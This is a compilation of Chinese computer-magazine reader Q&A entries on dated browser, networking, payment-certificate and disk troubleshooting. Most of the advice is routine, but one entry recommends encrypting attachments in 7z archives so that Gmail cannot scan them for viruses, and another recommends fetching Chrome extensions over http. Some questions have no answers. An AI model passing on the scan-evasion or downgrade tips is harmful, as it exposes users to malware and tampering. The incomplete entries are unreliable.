## 无法安装Chrome扩展

- **Q:** 使用的是Google Chrome浏览器，不知什么原因现在一直无法从Chrome web Store中安装扩展，可以打开相应的扩展界面，但点击安装后就提示：Chrome web Store目前无法获取该应用程序。请问这该如何解决？
- **A:** 在出现“Chrome Web Store目前无法获取该应用程序”的提示后，获取插件的地址，复制到迅雷之类的下载工具中，同时将“https://”改成“http://”就可以下载了，然后把下载的文件直接拖到浏览器中即可安装。

## Opera无法使用淘宝安全控件

- **Q:** 以前使用Opera101版时可以直接打开淘宝并进行购物，但最近更新到Opera1150后发现无法使用淘宝网了，无法使用登录控件进而无法登录。请问这是什么原因？
- **A:** 这是由于你在之前使用低版本Opera时，系统中安装了淘宝插件，让Opera支持淘宝登录控件，而你在升级后，之前安装的淘宝插件可能不适合新版本，或是被人为删除而导致无法使用淘宝登录控件。只要重新安装最新版的Opera淘宝插件即可恢复正常。

## 搜索资料总变成歌曲搜索

- **Q:** 我使用的是傲游浏览器，习惯在搜索框中输入关键词进行搜索，但最近只要执行搜索时，总是出现MP3歌曲搜索结果页面，而直接打开百度搜索页面进行搜索一切正常。请问这该如何解决？
- **A:** 这肯定是搜索框的默认搜索引擎被设置成百度MP3搜索引擎而导致的。解决方法：在傲游搜索框中单击左侧图标下拉按钮，选择“百度”即可。

## QQ空间无法添加背景音乐

- **Q:** 我试图给QQ空间添加一首歌曲作为背景音乐时，总是被提示：您所修改的链接因安全问题已被过滤，请更换链接或直接进入商城搜索添加。请问这是什么原因？
- **A:** 这是由于你引用的歌曲文件并非其网络真实地址。很多音乐网站对歌曲进行了防盗链设计。如果你没有复制歌曲的真实地址，就无法添加到空间的背景音乐中了。你可以尝试重新搜索歌曲，找到网址最后为“*.mp3”的链接并进行添加，应该可以正常加入了。

## 傲游3经常卡死

- **Q:** 以前使用傲游2.X版浏览器，现在改用傲游3，速度是有明显加快，但是经常会出现无故卡死现象。操作系统为Windows 7，请问，有没有什么办法解决这个问题？
- **A:** 傲游系列浏览器卡死的确是个通病。不过，在Windows 7系统中，借助“Win7NR”这款Windows 7系统下的专用防卡死补丁可以明显改善卡死现象。

## Google阅读器无法打开RSS频道

- **Q:** 打开Google阅读器可以正常，但是浏览其中的RSS订阅频道时就被提示：抱歉，发生意外情况，阻碍了Google阅读器完成请求。请问这该如何解决？
- **A:** 出现这个问题后，你只要将Google阅读器的访问地址改成HTTPS模式即可，即从https://www.google.com/reader这个地址进入，这样就可以解决一些类似无法打开的情况。同样，此方法针对其他Google产品遇到无法访问时亦奏效。

傻博士有话说：
平时访问网页时，细心的朋友会发现普通网页一般都是以HTTP开头的网址。而像网上银行、在线支付等网站的地址则是HTTPS开头的网址。HTTPS是以安全为目标的HTTP通道，简单讲是HTTP的安全版。HTTP是超文本传输协议，信息是明文传输的，而HTTPS是有安全性的SSL加密传输协议。它们使用的端口也不一样，前者使用的是80端口，后者是443。有些时候，在访问HTTP无法打开网页的情况下，改用HTTPS打开则能顺利解决问题，特别是在Google的一些在线产品中，经常会出现这种情况。

## TCP/IP错误无法拨号

- **Q:** 使用的是Windows XP系统，今天在准备拨号上网时，系统提示：TCP/IP报告了错误2：系统找不到指定的文件，无法拨号上网。请问这是什么原因？
- **A:** 首先打开注册表编辑器，删除以下两个键[HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Winsock]及[HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Winsock2]。（安全起见，在编辑修改注册表前，请对相应部分的注册表导出备份，方便修改出现意外时恢复）
接着用记事本程序打开%winroot%\inf\nettcpip.inf文件，找到：
[MS_TCPIP.PrimaryInstall]
XCharacteristics = 0xa0
将上述“0Xa0”改为“0x80”，保存退出该文件。
然后打开本地连接的属性，添加协议，单击“从磁盘”按钮后找到上述修改后的文件完成TCP/IP协议的安装，稍后直接卸载TCP/IP协议。
最后，只要在重新启动系统后再按上面的方法重新安装一次TCP/IP协议，再次重新启动系统即可解决问题。

## 土豆视频全屏时会花屏

- **Q:** 在线观看土豆视频时，只要最大化视频时就会出现花屏现象，而将其下载到本地使用播放器播放，显示一切正常。请问这是什么原因？
- **A:** 这可能是因为开启了Flash的硬件加速而导致的，可以尝试这样来解决：右击在线视频播放画面，选择“设置”，在打开的窗口中取消选择“启用硬件加速”，这样或许可以解决这类问题。

## IE9无法关联迅雷

- **Q:** 将Windows 7系统自带的IE8升级到IE9后，之前安装的迅雷7就无法关联，下载时只能启动浏览器自带的下载功能。请问如何让IE9关联迅雷？
- **A:** 这可能是在IE9浏览器中禁用了迅雷插件，只要打开IE浏览器的设置：单击菜单“工具→Internet选项”，选择“程序”，单击“管理加载项”，在列表中找到“迅雷下载支持”项并将其设置为启用状态即可。

## 打开Chrome就提示下载

- **Q:** 使用的是Chrome浏览器，只要打开Chrome浏览器就会自动下载一个叫做download的文件。请问这是什么原因？
- **A:** 这是由于你在Chrome浏览器中设置了错误的默认主页地址导致的。只要打开Chrome的参数设置界面，将默认首页地址清除并重新设置成正确的网址即可。

## 部分网页打开弹出错误对话框

- **Q:** 使用的是Windows 7自带的IE浏览器，在打开部分网站时会收到一个错误对话框，提示Internet Explorer无法打开该站点。请问这是什么原因？
- **A:** 如果目标网站正常的话，可以考虑是浏览器的设置问题。先将IE浏览器恢复缺省设置参数模式：单击菜单“工具→Internet选项”，在“高级”选项卡中单击“重置”按钮即可。如果重置浏览器仍不能解决问题，检查一下DNS服务器设置是否正确。

## 大雨后无法上网

> Q：之前一直使用正常，在一场大雨之后，我的台式机电脑就无法上网了，本地连接总出错，而将网线插到笔记本中却又可以正常上网。请问这是什么原因?

A：请先尝试将网卡驱动程序卸载，然后重新安装一次驱动程序，最后再重新建立拨号连接。如果上述方法无法解决，网卡因雷电影响而损坏的可能性较大，更换一块网卡应该能够解决问题。

傻博士有话说：在雷雨天气，尽量不要开电脑（其他电器也是一样），同时还需要将电源线、网线、电话线等与设备断开连接。像路由器、宽带猫等都需要拔开网线、电话线，防止雷击。这些电子设备，雷击电流一般都可以轻易地将这些设备损坏。

## Firefox升级后总弹出错误提示

> Q：将Firefox浏览器由V5升级到V6，每次打开Firefox浏览器时总会弹出错误提示框：TypeError:Components.classes[cid] is undefined. 请问这该如何解决?

A：这可能是由于你的系统中安装了有道的插件youdao word capture所致。只要在注册表编辑器中定位到[HKEY_CURRENT_USER\Software\Mozilla\Firefox\Extensions]，将其下的该插件对应键值项删除，然后再到硬盘中找到插件文件并删除即可。

## 点击淘宝链接不启动淘宝旺旺

> Q：之前与淘宝卖家联系时，一直使用网页版聊天工具，最近安装了淘宝旺旺客户端，但是点击聊天链接后，仍打开网页版旺旺聊天窗口，无法启动客户端旺旺。请问这是什么原因?

A：如果重新启动系统仍不能解决问题，可以这样来排查故障：打开IE浏览器，单击菜单“工具→Internet选项”，在打开的窗口选择“程序”选项卡，单击“管理加载项”按钮。在打开的窗口列表中找到“Taobao (China) Software Co., Ltd”项，直接将所有加载项设置为启用状态即可。如果上述方法仍不能解决问题，请按Win+R键调出运行对话框，输入执行命令：regsvr32 旺旺安装路径\AliIMX.dll，重新注册一遍该DLL文件试试。

```
regsvr32 旺旺安装路径\AliIMX.dll
```

## 淘宝页面变成繁体界面

> Q：不知道什么原因，今天打开淘宝网时，发现页面文字变成了繁体字，而其他页面却显示正常。请问这是什么原因?

A：这可能是你的系统中使用了代理服务器，或是在浏览器中设置了代理服务器，而且代理服务器是国外IP地址。淘宝网会根据用户的IP地址自动切换显示简体中文或是繁体中文。只要取消代理服务器即可恢复正常。如果不行，尝试清除浏览器的Cookies，然后再重新启动浏览器打开淘宝页面。

## QQ空间文字成竖状排列

> Q：不知道什么原因导致我的QQ空间中的文字由原先的横向排列变成竖状，而在其他电脑中打开则正常。请问这该如何解决?

A：这可能与你的浏览器缓存文件过多有关，请尝试清空浏览器缓存。以IE为例：单击菜单“工具→Internet选项”，在打开的窗口中选择“常规”选项卡，单击“删除”按钮，选择“Internet临时文件”，最后单击“删除”按钮进行删除即可。

## Google浏览器无法使用扩展

> Q：我使用的是Google Chrome浏览器，最近不知道什么原因，任何扩展程序都无法使用，提示：错误6(net::ERR_FILE_NOT_FOUND): 无法找到该文件或目录。请问这该如何解决?

A：请将系统盘中的Chrome程序设置文件夹中的Default目录（例如 C:\Users\AppData\Local\Google\Chrome\User Data\Default）备份，然后删除该目录，再次打开Chrome浏览器，在关闭后系统会自动生成一个新的Default目录。若此时，使用扩展仍有问题，那可能是安装文件的问题，需要重新安装Chrome浏览器。否则，将前面备份的Default目录中的Extensions拷贝到新生成的Default目录即可恢复正常。

## 无法登录163邮箱

> Q：在使用IE浏览器打开163邮箱时，总会弹出一个错误提示框，提示：登录邮箱启动遇到问题，请尝试以下方法：检查杀毒软件和防火墙、清除浏览器缓存……请问这该如何解决?

A：请先按Ctrl+F5组合键强制刷新一次网页，有时候可以解决这种问题。其次，按提示检查杀毒软件及防火墙是否拦截了163邮箱网站及清除浏览器缓存数据、Cookies，然后再重新启动IE浏览器，应该可以恢复正常。

```
Ctrl+F5
```

傻博士有话说：平时刷新网页我们习惯使用F5键或是鼠标单击浏览器中的“刷新”按钮，而这种刷新方法执行后，一般都是直接从本地浏览器缓存中重新读取数据。如若网站服务器已经更新了数据，这种方法打开的可能还是以前的旧数据。而Ctrl+F5键则是直接强制从网站服务器读取最新的数据，刷新后看到的就是当前最新的数据。例如在论坛中按F5键刷新后可能不会看到新帖子，而Ctrl+F5键后就不会耽误看到最新帖子了。

```
F5
```

```
Ctrl+F5
```

## 去除淘宝的自动登录

> Q：最近不知道什么原因，打开淘宝网并登录时会自动提示：检测到您已经登录的账号，然后点击“登录”按钮无需输入密码便直接登录了。请问如何去除淘宝的自动登录?

A：这主要是你在某次登录时选择了“两周内免登录”选项，系统自动记录了登录账号信息所致。只要再次打开登录页面，点击“使用其他账号登录”，然后再输入自己的账号及密码，取消选择“两周内免登录”选项，登录后再退出即可。

## 新浪视频无法打开

> Q：使用的是Windows 7系统，自动升级到SP1，不管使用IE还是傲游浏览器，总是无法打开新浪视频，显示一块黑屏状态。请问这是什么原因?

A：首先，检查Flash播放插件是否工作正常（可以通过打开其他视频页面，通过播放正常与否来检测），必要时重新安装最新版Flash播放器插件。其次，检查杀毒软件是否有拦截，例如卡巴斯基安全部队的反广告功能开启后，就有可能会导致新浪视频无法正常播放，将其关闭即可。

## 如何转移Picasa照片

> Q：之前将照片上传到Picasa相册中，但现在又更换了另外一个Google账号，想将之前的账号对应的Picasa相册中的图片转移到新账号中，请问如何才能实现?

A：使用之前的Google账号登录Picasa相册，然后点击右上角的齿轮图标，再选择照片设置，在“隐私设置和权限”标签中点击“迁移账户”中的“迁移我的照片”，接下来输入第二个Google账号，再按照向导提示即可将第一个账号中的图片迁移到第二个账号中。

## 总是无法登录支付宝

> Q：家里有两台电脑，新电脑中安装的是64位的Windows 7系统，登录支付宝时总是不成功，提示：当前环境有风险，不能登录。而在旧电脑中登录时又提示CA有问题，请问这该如何解决?

A：这应该是你之前在旧电脑中安装了支付宝的数字证书，而该证书目前又出现问题无法正常登录所致。这种情况可以这样解决：在旧电脑中删除之前安装的支付宝数字证书，重新下载安装支付宝数字证书，保证能正常登录。接下来在新电脑中也下载安装数字证书，之后应该能正常登录。

## 笔记本无线不能上网

> Q：家中使用无线路由器，台式机可以正常通过无线上网卡上网，但是我刚配的笔记本总是无法连接，任务栏中的无线连接总是不成功，无法上网。请问这该怎么解决?

A：像这种情况，一般都是电脑中的IP参数设置不正确所致，只要打开台式机的网络连接中的TCP/IP参数设置，然后将笔记本电脑的相关参数同步设置即可。或者直接将笔记本电脑的IP获取方式设置成自动获取，一般都可以直接连接无线并正常上网了。当然，若无线进行了加密，在连接时还需要提供正确的密码，否则也无法上网。

## Cookies变成“0EFWVF1V.txt”

> Q：一直使用的是IE浏览器，以前的Cookies文件都是诸如abc@bbs.c[1].txt这样的格式，而最近发现所有的Cookies都变成了诸如0EFWVF1V.txt的格式了。请问这是什么原因，是不是中毒了?

A：这不是中了病毒，而是由于你的系统最近更新了“KB2559049”补丁，而该补丁安装到系统中后就会直接将Cookies文件名修改成上述名称。

## 浏览器默认主页无法修改

> Q：我使用的是IE浏览器，不知道什么原因，默认主页被修改成某网站的网址，无法修改，使用QQ电脑管家也查不出问题。请问这该如何解决?

A：首先，检查在QQ电脑管家中是否设置成锁定浏览器主页，若已经锁定，请先解锁，然后再尝试手工修改。若手工修改不了，推荐你使用金山急救箱修复一下，设置好后再使用QQ电脑管家将主页锁定，避免其他网站自行修改默认主页。

傻博士有话说：很多流氓软件安装向导会以默认方式修改浏览器主页，如果在安装时不加小心，就有可能会“被同意”修改。此外，还有很多流氓网站，当打开或是关闭该网站时，浏览器会弹出是否将其设置为默认主页的提示，如果不加小心也会“被同意”修改。而有些更霸道的流氓软件、网站，根本不经用户同意，直接修改。因此，平时在安装软件、浏览网站时，在安装向导中，注意一些安装选项，避免一些陷阱。此外，可以在系统中安装一些流氓防火墙类软件。

## QQ上的链接点击无反应

> Q：在Windows 7系统中安装的最新版QQ程序，但是主窗口中的QQ空间、QQ邮箱等图标链接点击无任何反应。请问这是什么原因?

A：这应该与QQ本身关系不大，而与系统默认浏览器有关。例如设置的默认浏览器出现问题无法启动，就会出现这种情况。如果IE浏览器手工启动正常，可以直接将IE浏览器设置为系统默认浏览器：在“开始”菜单的搜索框输入“默认程序”，在列表中选择IE浏览器，再单击右侧“将此程序设置为默认程序”，最后单击“确定”即可。按照类似的方法，只要指定一个系统可用的浏览器应该都能解决问题。

## QQ老版本网络硬盘中文件丢失

> Q：以前将一份重要资料保存在QQ老版本的网络硬盘中，现在无法使用QQ老版本登录，进而无法找到之前保存在网络硬盘中的文件了。我该怎么办?

A：你只要打开QQ邮箱，在QQ邮箱中找到“文件中转站”，在“收藏的文件”中就存放了之前网络硬盘中的文件，直接打开后即可看到并下载了。

## 百度图片搜索结果无法显示

> Q：我使用百度图片搜索引擎找图片时，搜索结果页面中的图片全部显示空白。请问这该如何解决?

## 傲游3无法播放 Qvod 视频

> Q：使用傲游2.5可以正常播放Qvod页面点播视频，而换成傲游3后总是无法进行在线点播视频，显示播放区域为灰色，请问这是什么原因？

A：既然傲游2.5可以播放，系统中应该正常安装了Qvod播放插件。导致无法播放的原因可能是页面不兼容所致，只要在傲游3中切换浏览器为兼容浏览模式应该可以解决问题：直接用鼠标单击地址栏右侧的“切换浏览模式”按钮，让图标显示为兼容模式即可。

## 系统总会自动断开

> Q：安装的是Windows XP系统，只要不用系统20分钟左右，网络就会自动断开，之后还要手工连接才能恢复正常，请问这是什么原因？

A：这是因为在拨号连接中被设置了空闲指定时间后自动断开连接而导致的，只要将该功能关闭即可：直接打开IE浏览器，单击菜单“工具→Internet选项”，在“连接”选项卡中找到默认拨号连接，然后单击“设置”按钮，在打开的窗口中取消自动断开连接设置即可。此外，如果是笔记本电脑，设置了节能模式时，由于网卡会自动在空闲时间自动停用，也会导致网络连接断开的情况，需要在网卡属性中取消节能设置中的网卡节能选项。

## 百度音乐盒无法打开

> Q：之前一直使用正常，今天打开百度音乐盒时无法播放音乐，总是提示要升级Flash Player，但我已经安装了新版本的Flash Player播放器了，仍无法播放，请问这该如何解决？

A：在这种情况下，百度音乐盒会给出最新版Flash Player播放器的下载链接，请确保自己安装的Flash Player播放器版本与该链接给出的版本相同。其次，再检查是否成功安装了插件，在Windows 7系统下需要使用管理员权限对其安装，否则安装可能会失败，进而导致百度音乐盒无法打开。

注：可以直接到Adobe官方网站下载安装 (http://www.adobe.com/go/getflashplayer)。

傻博士有话说：现在很多网页都是借助Flash技术制作的，像在线视频、在线音乐、在线小游戏等。要想正常打开这类页面，必须要在系统中安装Flash Player播放器插件，否则无法打开这类页面。而Flash Player播放器插件更新速度较快，在出现页面无法正常打开的情况下，应该先考虑升级插件。此外，在浏览器中若设置禁止播放动画后，这类网页也无法正常打开，需要取消禁用设置才行。

## PT上传速度无法满速

> Q：之前使用uTorrent进行PT下载时，下载速度与上传速度均能达到满速状态，而最近下载速度可以满速，但是上传速度却无法满速，已经检查uTorrent的设置，并未限制上传速度，请问这是什么原因？

A：如果排除本地PT下载工具的技术限制，十之八九是由于ISP服务商进行了上传速度限制。现在有很多地区都对用户的上传速度进行了限速，这样就会导致PT下载时速度正常，但上传速度不正常。这种情况只有打服务商电话，让他们取消上传限制，否则无法解决。

## Firefox 无法打开京东网站

> Q：我使用的是Firefox 6，只要输入京东网站地址，回车即报错：Bad Request......Error code: 64
Parser Error: [Cookie......请问这该如何解决？

A：只要清空Cookies即可解决问题：单击菜单“工具→清空最近历史记录”，单击“详细信息”展开列表，选择“Cookies”项，然后执行清空操作即可。

## 播放网页视频提示 Missing Plug-in

> Q：我安装的是Windows 7系统，使用的是IE9浏览器，最近在试图打开视频网站看视频时，浏览器总是提示：Missing Plug-in，无法播放视频，请问这该如何解决？

A：这是由于你安装的Flash播放器插件版本过低，或是系统根本未安装该插件所致。只要从前文问答中所给的Adobe官方网址中下载安装新版Flash播放器插件，即可解决问题。当然，在浏览器中还需要开启视频播放功能，否则也无法在浏览器中看网络视频。

## Firefox 无法打开新标签页

> Q：我在Firefox中单击“打开新标签页”时却无法打开新标签，没有任何反应，请问什么原因？

A：这一般是与安装的插件出现故障有关，例如在安装Tab Mix Plus这款插件后，如果设置不正确或是插件版本过旧都会导致类似故障出现。可以通过暂且禁用该插件来锁定故障的原因，然后再通过升级插件或是恢复插件默认设置来解决问题。

## 如何取消 Gmail 检测附件病毒

> Q：经常在Gmail中发送附件时被查毒，导致上传了半天的附件无法成功发送，请问，如何取消Gmail对邮件附件的病毒检测？

A：使用7Zip压缩工具将附件进行压缩，并且压缩成加密的7z格式的压缩包，这样发送附件时，Gmail就无法检测附件的病毒了，进而也不会导致附件无法成功发送的结果了。

## QQ 在 Windows 7 下无法运行

> Q：刚买的新笔记本，安装的是64位Windows 7系统，安装了QQ但是不能运行，每次启动QQ都提示“应用程序无法启动，因为应用程序的并行配置不正确。有关详细信息，请参阅应用程序事件日志，或使用命令行运行sxstrace.exe工具。” 请问这是怎么回事？

A：这是由于你的系统中缺少VC运行库所致。由于是64位Windows 7系统，需要下载64位VC运行库才行。下载地址：http://tinyurl.com/6hn3jay。

## 无法安装支付宝数字证书

> Q：64位Windows 7系统，明明安装了支付宝数字证书，但是在使用支付宝时又被提示未安装数字证书，打开IE浏览器选项也看不到数字证书，请问这是什么原因？

A：首先，检查你的系统时间是否正常。如果系统时间不对，安装数字证书就会出现异常，即使安装上了数字证书也无法正常使用。其次，安装数字证书时确保使用管理员权限进行安装（右击下载到硬盘的数字证书，选择“以管理员身份运行”）。如果上述方法均无法解决，尝试更换一个系统账户进行安装。此外还要注意防火墙对其拦截的问题。

傻博士有话说：数字证书的正常运行都会与系统时间紧密联系。很多数字证书故障均与系统时间不正确有关。例如，在IE浏览器的选项中打开数字证书列表，每个数字证书都有“截止日期”，如果当前系统时间已经在截止日期之外，该网站的数字证书就会出现异常，甚至连网站都无法打开。

## 傲游浏览器标签假死

> Q：最近出现怪现象，只要在傲游浏览器中打开淘宝页面，打开三个以上宝贝页面后标签就会死掉，不显示标签对应网页的内容，重新启动系统、傲游浏览器，症状依旧，请问这是什么原因？

A：你试试打开其他非淘宝页面，看是否不再死锁。如果确定只有淘宝网页死锁，可能与你安装的360安全卫士有关，尝试关闭网购保镖功能，或者升级360安全卫士至最新版来解决问题。

## 将 Connectify 更新到 3.0 就上不了网

> Q：我一直使用Connectify1.0搭建WiFi热点，由于版本低一直提示更新，今天索性装了最新的Connectify3.0，但是一装上就发现本地连接识别不了，之后就无法上网了，请问这该如何解决？

A：只要右击本地连接，在“属性”中找到“connectify lightweight filter”项，并直接将其禁用即可解决问题。不过，下次重新启动时，还需要手工将此项禁用。尝试将你的网卡驱动程序还原到旧版本应该能解决这个问题。

## 无线网络总是自动断开

> Q：开机时一切正常，可以连接到网络，而过一会就无法连接到无线网络，重新启动后又恢复正常，但过一会又会出现同样的故障。使用ipconfig /release和ipconfig /renew命令后可以恢复正常，请问这是什么原因？

A：排除信号不好的情况导致网络中断外，这有可能是与某个软件冲突所致，例如安装了VMware虚拟机的话就有可能会出现这样的情况，只要将VMware的虚拟网卡禁用就可以解决这个问题。

## Chrome Plus 在任务栏总显示 2 个图标

> Q：我使用的是Chrome Plus浏览器，系统是Windows 7专业版，它在系统任务栏总是显示2个图标，我明明已经将任务栏图标设置成合并模式了，请问这是什么原因？

A：可能是Chrome Plus浏览器的参数设置不当，打开Chrome Plus的参数设置窗口，在“标签设置”中将“启用Windows 7的任务栏多标签预览功能（启动新窗口时生效）”选项取消选中，保存设置应该可以解决。

## QQ 消息时间比系统时间慢 10 分钟

> Q：我的系统是Windows 7，安装的是最新版QQ，最近发现QQ发送的消息在消息记录中显示时间比系统时间慢10分钟，请问这是什么原因？

A：如果你的操作系统时间正常，这个问题有可能是QQ服务器出现了问题，一般重新启动一下QQ（重启后可能会重新连接新服务器）即可解决问题。

## Firefox 启动时出错

> Q：在启动Firefox时，总出现“JavaScript Application”窗口，提示：TypeError: Components.classes[TvcPwmComponent_CID] is undefined，请问这该如何解决？

A：这是由于系统中安装了“Thinkvantage”插件，该插件工作不正常导致的故障。在Firefox中打开“附加组件管理器”，找到“Thinkvantage”插件并直接将其禁用即可解决问题。

## Chrome 中的代理切换功能失效

> Q：我使用的是Chrome浏览器，已经启用了自动代理切换功能，但是在浏览某个网站时它总是无法切换到代理模式，请问这是什么原因？

A：使用Chrome的代理切换功能，需要设置规则。也就是设置当浏览器打开某个网站或是符合某个特征的网站时，自动切换规则。如果已经设置了规则也不能切换，可以考虑换用“SwitchySharp”插件来解决自动切换代理的问题。

傻博士有话说：Chrome自带的代理自动切换功能，必须要设置代理服务器，这个功能只是负责在符合特定的网站时，自动切换到指定的代理服务器。

# 支付宝无法支付

Q 我在淘宝网拍下一个宝贝，然后使用支付宝及农业银行网上银行付款时，浏览器提示：500512:签名错误，签名验证未通过，试了多次仍出错。请问这该如何解决？

A 这可能是由于你的网上银行数字证书过期所致。可尝试以下方法：打开IE浏览器，单击菜单“工具→Internet选项”，在“内容”选项卡中单击“证书”按钮，在列表中找到农行数字证书并将其删除。接下来，再到银行柜台重新申请数字证书，之后再将其导入系统中即可。

# 看优酷视频假死

Q 我在一台旧电脑中使用IE浏览器看优酷视频，经常出现卡死现象，我家的带宽是4兆的。请问这是什么原因？

A 出现这种问题可以从以下几个方面来考虑：
- 1.升级Flash Player播放器插件，如果仍在使用低版本Flash Player播放器插件，就有可能会出现一些意想不到的错误。
- 2.关闭Flash Player的硬件加速功能：右击播放画面，选择“设置”，在打开的小窗口中取消选择“启用硬件加速”项，单击“关闭”保存设置即可（见图）。
此外，还需要考虑关闭系统的硬件加速，对于配置较低的电脑，开启这些硬件加速往往会导致故障发生。



# Firefox 丢失刷新按钮

Q 最近从腾讯浏览器换到Firefox浏览器，新安装的firefox的工具栏丢失了刷新按钮，给平时操作带来不小的麻烦。请问，如何找回刷新按钮？

A 不知道你使用的是不是最新版Firefox浏览器，在新版本中，已经将刷新按钮与停止按钮合并成一个，并放在地址栏右侧，而对于浏览器来说，按F5键就是刷新，或者按Ctrl+F5键进行清除缓存式刷新。

# 无法关联银行卡

Q 我新注册了一个支付宝账户，但在绑定我的工商银行卡时总是提示这个银行卡开通了快捷支付功能，无法进行绑定。请问这是什么原因？

A 这应该是你在其他支付宝账户中绑定了这张银行卡，只要解除该银行卡与其他支付宝账户的绑定即可。方法很简单，只要登录这个银行卡的网上银行，点击“缴费站→委托代扣→我的委托代扣”，点击“终止”，然后按照撤销向导完成撤销即可。

# 无法找到 Chrome 的配置文件

Q 现在需要重新安装Windows XP系统，想将Chrome浏览器的参数设置备份下来，以方便重新安装系统时直接调用。但是搜索了整个硬盘都无法找到。请问如何才能找到Chrome的配置文件？

A Chrome最新版提供了参数设置文件上传服务器的功能，只要设置Chrome浏览器登录账号及与服务器同步参数即可。而Chrome在本地硬盘中的配置文件保存位置，可以先设置系统显示所有文件，在“C:\Documents and Settings\系统账户名\Local Settings\Application Data\Google\Chrome\User Data\Default”位置即可看到其配置文件了。


# 系统无法启动 VPN

Q 安装的是Windows 7 X64旗舰版，之前没有使用任何优化工具优化系统，但总是无法启动VPN，提示711错误。请问这该如何解决？

A VPN无法启动并显示的711错误，可以考虑“Windows Event Log”服务是否开启，如果该服务没有启动，就会出现类似错误。解决方法：按Win+R键调出运行对话框，输入services.msc并回车打开服务管理器，找到“Windows Event Log”服务并将其启动即可。

> 傻博士有话说：系统中有很多服务（可以在服务管理器中对它们进行开启、关闭操作），而很多服务之间还有一种依存关系，只有A服务启动的情况下，B服务才能正常运行，在服务管理器中可以通过服务管理器中的“依存关系”选项卡来查看该服务所依存的其他服务，如果在出现某个服务无法启动或是运行出错时，不妨先检查它的依存服务是否开启，若被关闭，请将其开启即可。

# 优盘文件变成系统隐藏文件

Q 一块优盘，其中有几个GB的数据，但是插到电脑后发现里面的文件均隐藏了，只有将“隐藏受保护的系统文件”取消选择后方可查看，优盘文件属性的“隐藏”属性已被选中，并且是灰色不可用状态。请问这该如何解决？

A 请先使用优盘病毒专杀工具对优盘进行病毒查杀（USBCleaner，下载：http://www.usbcleaner.cn/index1.htm），接下来按Win+R键调出运行对话框，输入cmd并回车打开命令提示符窗口，用以下命令来去除优盘文件的隐藏属性：

```
attrib X:\*.* -S -H -R /S /D
其中：
X 代表优盘的盘符；
R 只读文件属性；
S 系统文件属性；
H 隐藏文件属性；
/S 处理当前文件夹及其子文件夹中的匹配文件；
/D 也处理文件夹。
这样操作一遍后即可解决问题。
```

# C 盘每天增加 1GB

Q 安装的是Windows 7，装在C盘，最近经常提示C盘空间低，即使清理一遍，没过两天又会提示，跟踪发现，每天C盘会增加1GB的数据。请问这是什么原因？

A 这需要揪出到底是哪个文件夹在增加体积，之后才能判断具体的原因。推荐使用“魔方”（下载地址：http://www.tweakcube.com/）来检查到底是哪个文件夹占用过多的硬盘空间，运行后单击“系统清理→磁盘空间分析”，然后对C盘进行空间分析，找出到底是哪个文件夹每天都在大幅增加容量，最后再根据实际情况处理即可。

# 无法安装 Windows 7 SP1

Q 之前使用了一款优化软件胡乱修改了系统版本属性，显示为Windows 7 SP2，现在想安装Windows 7 SP1时却总提示：Windows 7 Service Pack 1的最新版本已安装，总是无法成功安装。请问这该如何解决？

# 虚拟机无法识别 SCSI 硬盘

Q 在VMware-workstation 7.1.4中新建了一个Windows 2003的虚拟系统，VM分配的是SCSI硬盘，在WinPE下能够正常识别，但是Ghost系统时，找不到硬盘，用原版系统盘引导也无法找到。请问这该如何解决？

A 这是由于你没有加载虚拟的VM版SCSI驱动程序所致，只要到http://download3.vmware.com/software/vmscsi-1.2.0.2.flp下载这个驱动并加载到虚拟机中，即可正常识别SCSI硬盘了。

# 合并分区后无法启动系统

Q 安装的是一键还原系统，C、D、E、Z四个逻辑分区，Z为隐藏的备份分区，现在将原先安装Windows XP的C盘重新安装了Windows 7系统，由于空间告急，使用Acronis Disk将Z盘合并到C盘中，结果无法启动系统，反复重新启动。请问这该如何解决？

A 这可能是硬盘中的引导程序遭到破坏而导致系统无法正常启动，解决方法可以参考下面步骤：使用WinPE光盘引导到PE系统中，接下来再从可靠网站搜索下载BOOTICE工具“引导扇区制作_ BOOTICE v0.8.0”，并在PE系统中运行，然后依次选择好目标磁盘（若多磁盘请选择要安装系统的硬盘），单击“主引导记录”按钮，选择“Windows NT6.x默认引导程序”，最后单击“安装/配置”即可，之前最好先对MBR引导记录进行备份，这样应该能够解决系统无法重新启动的问题。
注意：对系统的操作有一定风险，安全起见，请事先对磁盘中的重要文件数据安全备份好，然后再试。

> 傻博士有话说：在Windows系统中对硬盘进行分区时，最多只能分配三个主分区加一个扩展分区，而有些朋友购置的大容量硬盘需要分配多个盘，在分区时就应该注意，分成三个以下主分区，一个扩展分区，然后在逻辑分区中再分配逻辑分区，这样就不会因为三个主分区的限制而出现无法分配多盘符的问题了。此外，在进行分区时，可以直接通过系统自带的分区工具来实现，在进行分区之前应该注意重要数据的备份工作。

# 自由空间无法分区

Q 之前将C盘分区腾出一部分空间，试图将这部分空间分出一个新区，但是在建立分区时系统提示“因为该磁盘已经包含最大分区数”，无法创建。请问这该如何解决？

A 这可能是你在分区时分出了多个“主分区”，超过3个就会提示。出现这种情况后，直接在分区管理中将临近的一个分区删除，再删除扩展分区，这样就会自动将这两个分区合并到一起为“未分配”分区，接下来再重新建立简单分卷，划分成扩展分区和逻辑分区，根据自己的需要进行划分即可。
注意：删除分区会导致该分区上的所有数据丢失，所以在进行上述操作之前，一定要先对硬盘中的重要数据做好备份，防止误操作导致数据丢失。

> 傻博士有话说：在Windows系统中对硬盘进行分区时，最多只能分配三个主分区加一个扩展分区，而有些朋友购置的大容量硬盘需要分配多个盘，在分区时就应该注意，分成三个以下主分区，一个扩展分区，然后在逻辑分区中再分配逻辑分区，这样就不会因为三个主分区的限制而出现无法分配多盘符的问题了。此外，在进行分区时，可以直接通过系统自带的分区工具来实现，在进行分区之前应该注意重要数据的备份工作。

# 插上移动硬盘容易死机

Q Windows XP SP2系统，以前使用正常的一块移动硬盘分有三个区（X、Y、Z），突然出现Z分区不能识别的现象，而且插上移动硬盘时容易导致死机。请问这是什么原因？

# 傻博士信箱

# 《电脑爱好者》·合订本

# 双系统无法进入指定系统

Q 我安装的是Windows 7与Windows XP的双系统，在Windows 7中不小心将启动菜单显示时间设置为“0”，现在启动系统就进入Windows XP，请问如何才能让启动菜单再现？

A 在Windows XP中，下载bcdtool工具，运行后直接在左侧选中“Windows启动管理器”，在右侧窗口中将最后一行的“timeout”的值设置成需要显示的时长（例如5秒钟）即可。（注意，这里涉及到系统修改，安全起见，尝试操作之前请先对硬盘中的重要数据做好备份工作。）

# 光驱丢失

